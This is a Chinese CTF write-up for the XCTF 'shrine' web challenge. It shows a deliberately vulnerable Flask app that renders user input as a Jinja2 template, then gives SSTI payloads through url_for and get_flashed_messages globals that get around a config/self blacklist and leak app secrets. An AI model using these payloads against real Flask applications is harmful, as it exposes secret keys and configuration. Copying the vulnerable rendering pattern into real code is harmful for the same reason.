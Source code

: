 ```yaml
---
title: shrine
tags: [Writeups, WEB, SSTI]
categories: CTF
---
```


Flask框架

<!-- more -->

打开页面就是一段源码

<img src="D:\Hexo\source\_drafts\shrine\first.png" style="zoom:50%;" />

`Ctrl+U`查看源代码可以免除手动格式化的麻烦

```python


import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```

经过一段时间的尝试发现`/shrine/FLAG`回显`FLAG`

> 明显是个 `flask` 在 `/shrine/` 下的 `SSTI`
>
> 而且对 payload 进行了过滤
>
> > 对小括号进行了替换，将 ( 和 ) 替换为空字符串 将 config 和 self 添加进了黑名单
>
> **--> Xctf**

> 首先在shrine路径下测试ssti能正常执行
>
> `/shrine/{{ 2+2 }}`
>
> <img src="D:\Hexo\source\_drafts\shrine\ssti.png" style="zoom:50%;" />
>
> 接着分析源码
>
> ```
> app.config['FLAG'] = os.environ.pop('FLAG')
> ```
>
> 注册了一个名为FLAG的config，猜测这就是flag，如果没有过滤可以直接{{config}}即可查看所有app.config内容，但是这题设了黑名单[‘config’,‘self’]并且过滤了括号
>
> ```
> return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
> ```
>
> 上面这行代码把黑名单的东西遍历并设为空，例如：
>
> ```
> /shrine/{{config}}
> ```
>
> 不过python还有一些内置函数，比如url_for和get_flashed_messages
>
> ```
> /shrine/{{url_for.__globals__}}
> ```
>
> <img src="D:\Hexo\source\_drafts\shrine\url_for.__globals__.png" style="zoom:50%;" />
>
> 看到current_app意思应该是当前app，那我们就当前app下的config：
>
> ```
> /shrine/{{url_for.__globals__['current_app'].config}}
> ```
>
> <img src="D:\Hexo\source\_drafts\shrine\config.png" style="zoom:50%;" />
>
> **get_flashed_messages**
>
> ```
> 返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。
> ```
>
> 同理
>
> ```
> /shrine/{{get_flashed_messages.__globals__['current_app'].config}}
> ```
>
> **作　　者**：**[王叹之](https://www.cnblogs.com/wangtanzhi)**
> **出　　处**：https://www.cnblogs.com/wangtanzhi/p/12238779.html
